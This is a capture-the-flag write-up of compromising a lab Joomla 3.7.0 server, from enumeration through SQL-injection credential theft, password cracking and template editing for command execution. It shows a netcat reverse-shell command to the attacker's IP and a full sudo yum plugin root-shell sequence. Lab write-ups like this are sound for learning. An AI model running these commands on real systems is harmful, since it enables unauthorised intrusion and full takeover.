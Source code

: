 ENUMERATION:

Nmap:

![image](https://user-images.githubusercontent.com/126739122/234122185-0054ecf3-01eb-41a9-bd8e-9eebb7de0976.png)

Ran gobuster on http://10.10.249.26:

![image](https://user-images.githubusercontent.com/126739122/234122224-8ea8210a-face-4cb6-a1f9-96de314d0502.png)

Browsed to http://10.10.249.26/administrator and found this login webpage:

![image](https://user-images.githubusercontent.com/126739122/234122240-205379fe-1d3a-4329-86c8-8357a71eff80.png)

INITIAL FOOTHOLD:

REF: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla
Browsed to http://10.10.249.26/administrator//language/en-GB/en-GB.xml
	- found Joomla version: 3.7.0

Searched for any known exploits for Joomla 3.7.0
	- REF: https://github.com/stefanlucas/Exploit-Joomla/blob/master/joomblah.py

Ran python script and found user credentials for jonah:$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm

Cracked password hash with JohnTheRipper:

![image](https://user-images.githubusercontent.com/126739122/234122248-2c49f10f-2a53-49d9-aa10-71b8d8cd7121.png)

Successfully logged into administrator login page with jonah:spiderman123 credentials
Following Hacktricks REF linked above, there is a way to gain RCE on the webserver through admin portal for Joomla

Edited error.php page in "protostar" template for Joomla:

![image](https://user-images.githubusercontent.com/126739122/234122256-f94f50d6-b927-496a-bd45-24abdfe33260.png)

Browsed to http://10.10.249.26/administrator/templates/protostar/error.php?cmd=nc 10.6.47.128 6251 -e /bin/bash
Spawned a fully interactive reverse shell on webserver

PRIVILEGE ESCALATION:

Transferred over LinPEAS.sh script from local machine to /tmp folder on webserver as 'apache' user and found the following:

![image](https://user-images.githubusercontent.com/126739122/234122262-2a152e5a-bd6d-4603-af18-459377c261d3.png)

Attempted to use this password for 'apache' user to check sudo permissions (incorrect password)
This ended up being the password for 'jjameson' user account on this machine
Switched over to  jjameson user and ran LinPEAS again:

![image](https://user-images.githubusercontent.com/126739122/234122270-ede61530-8450-4bf5-a06f-e87ae32cc236.png)

REF: https://gtfobins.github.io/gtfobins/yum/
ran commands:
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF
cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF
cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF
sudo yum -c $TF/x --enableplugin=y

FOUND BOTH USER AND ROOT FLAGS
